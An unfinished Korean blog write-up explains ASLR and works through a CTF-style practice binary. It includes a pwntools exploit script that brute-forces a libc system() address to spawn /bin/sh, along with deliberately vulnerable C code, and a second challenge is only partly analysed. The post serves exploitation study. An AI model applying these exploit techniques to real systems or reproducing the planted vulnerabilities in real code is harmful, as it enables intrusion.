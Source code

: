 ```yaml
---
tistoryBlogName: k0n9
tistoryTitle: ASLR
tistoryVisibility: "3"
tistoryCategory: "1117646"
tistorySkipModal: true
tistoryPostId: "25"
tistoryPostUrl: https://k0n9.tistory.com/25
---
```

### ASLR이란?

주소 공간 배열 무작위화, 즉 실행할때마다 데이터 영역의 주소를 무작위화시켜서 직접적인 메모리 주소 참조가 힘들어진다. 

echo \[NUM] > /proc/sys/kernel/randomize_va_space 

num = 0 : aslr 해제 
num = 1 : 스택, 라이브러리 랜덤화 
num = 2 : 스택, 라이브러리, 힙 랜덤화

#### 예시
```C
#include <stdio.h>
#include <stdlib.h>
  
int main()
{
    int stack;
    int *heap = (int*)malloc(3);
    printf("stack address : %p\n", &stack);
    printf("printf address : %p\n", printf);
    printf("heap address  : %p\n", heap);
    return 0;
}
```

stack, heap, library 주소를 출력해주는 코드이다. 

![](https://i.imgur.com/13NqdyT.png)

![](https://i.imgur.com/YdUQfM8.png)

![](https://i.imgur.com/tmU9qhX.png)


### 예제 __ 1
```C
// gcc -o chall chall.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
  
typedef struct addr_t {
    size_t start_addr;
    size_t end_addr;
} addr_t;
  
addr_t* p = NULL;
size_t get_libc_code_addr() {
    FILE *fp;
    size_t start_addr;
    size_t end_addr;
    char buffer[256];
    char perm[5] = {0, };
  
    fp = fopen("/proc/self/maps", "r");
    if (fp == NULL) {
        perror("Open error");
        exit(-1);
    }
    p = malloc(sizeof(addr_t));
    if(!p) {
        perror("Malloc error");
        exit(-1);
    }
  
    while (1) {
        memset(perm, NULL, sizeof(perm));
        if(fscanf(fp, "%lx-%lx %4s", &start_addr, &end_addr, perm) == -1) {
            break;
        }
        fgets(buffer, 256, fp);
        if(strstr(perm, "x") && strstr(buffer, "libc.so.6")) {
            p->start_addr = start_addr;
            p->end_addr = end_addr;
            break;
        }
    }
}
  
int hint(void* num) {
    return 0;
}
  
int check_valid_addr(size_t addr) {
    return p->start_addr <= addr ? (p->end_addr >= addr ? 1 : 0) : 0;
}
  
void initialize() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
}
  
int main() {
    size_t num = 0;
    char name[0x10] = {0, };
    void (*func_ptr)(void) = NULL;
  
    initialize();
    get_libc_code_addr();
  
    printf("[+] What is your name?\n> ");
    read(0, name, sizeof(name)-1);
    printf("Hello %s\nI will give you gift\n> ");
  
    scanf("%llu", &num);
    func_ptr =  (num & 0xfffff) + (p->start_addr & 0xfffffffffff00000);
    if(!check_valid_addr(func_ptr)) {
        printf("Invalid addr");
        return 0;
    }
  
    hint(name);
    func_ptr();
  
    return 0;
}
```

우선 get_libc_code_addr()함수를 실행시킨다. 이 함수는 p->start_addr에 libc base를 저장하는 함수이다. 
다음 name을 입력받고 그다음 num을 입력받는다. 그리고 func_ptr 함수포인터에 (num & 0xfffff) + (p->start_addr & 0xfffffffffff00000) 를 저장하고 hint(name) 후 func_ptr 함수포인터를 실행한다. 우선 하위 5 니블은 내가 입력한 값이다. 그런데 그 나머지를 제외한 나머지는 libc base로 주어지기 때문에 우리는 하위 5니블만 맞추면 된다. 그런데 그중 하위 3니블은 offset으로 고정이다. 그러니 우리는 8비트 브루트 포싱을 하면 된다. 

그렇게 func_ptr에 system 주소를 넣을 수 있다. 인자는 어떻게 할까?
func_ptr() 전에 hint(name)을 실행한다. hint는 아무것도 하지 않는 함수이다. 그래서 name에 /bin/sh 문자열 주소를 넣어서 rdi 값을 조작할 수 있다.

```python
from pwn import *
  
 
context.log_level= 'debug'
  
i = 0
while True:
    logging.getLogger("pwnlib").setLevel(logging.ERROR)
  
    try:
        i += 1
        print(i)
        p = process("./chall")
        system_offset = 0x80d60
        # pause()
  
        p.sendafter(b"> ", str("/bin/sh"))
        p.sendlineafter(b"> ", str(system_offset))
  
        p.sendline('id')
        data=p.recv(100,timeout=0.1)
        if b'uid' in data:
            p.interactive()
        else:
            p.close()
    except EOFError:
        p.close()
        pass
```

![](https://i.imgur.com/WfKNRvB.png)


### 예제 __ 2
```C
#include <err.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stddef.h>
  
#define INSN_ENDBR64 (0xF30F1EFA) /* endbr64 */
#define CFI(f)                                               \
  ({                                                        \
    if (__builtin_bswap32(*(uint32_t*)(f)) != INSN_ENDBR64) \
      __builtin_trap();                                     \
    (f);                                                    \
  })// f를 받아서 INSN_ENDBR64와 비교하고 만약 다르다면 종료, 아니라면 f를 반환한다.
  
#define KEY_SIZE 0x20
typedef struct {              // 전체 크기 0x58
  char key[KEY_SIZE];         // 0x20
  char buf[KEY_SIZE];         // 0x20
  const char *error;          // 0x8
  int status;                // 0x8
  void (*throw)(int, const char*, ...);  // 0x8
} ctx_t;
  
void read_member(ctx_t *ctx, off_t offset, size_t size) {
  if (read(STDIN_FILENO, (void*)ctx + offset, size) <= 0) { //
    ctx->status = EXIT_FAILURE;   // 에러났을 경우
    ctx->error = "I/O Error";
  }
  ctx->buf[strcspn(ctx->buf, "\n")] = '\0'; //개행 문자 0으로 바꿈
  
  if (ctx->status != 0)
    CFI(ctx->throw)(ctx->status, ctx->error); // status와 error는 throw의 인자임
} //throw는 아마도 canary leak하는데 쓰이지 않을까?
  
void encrypt(ctx_t *ctx) {
  for (size_t i = 0; i < KEY_SIZE; i++)
    ctx->buf[i] ^= ctx->key[i];  // bit단위 xor
}
  
int main() {
  ctx_t ctx = { .error = NULL, .status = 0, .throw = err };
  
  read_member(&ctx, offsetof(ctx_t, key), sizeof(ctx));   // sizeof(ctx) = 0x58
  read_member(&ctx, offsetof(ctx_t, buf), sizeof(ctx));
                    // 아 이거 offsetof네, 위에꺼는 0, 아래꺼는 0x20, overflow 발생
  encrypt(&ctx);
  /*
  여기서
  ctx.buf는 libc가 있는 곳을 가리켜야 함
  */
  write(STDOUT_FILENO, ctx.buf, KEY_SIZE); // 여기서 libc_base leak하는 듯
  
  return 0;
}
```
일단 코드 분석은 했다. 나중에 해야지...

## 작성 중...
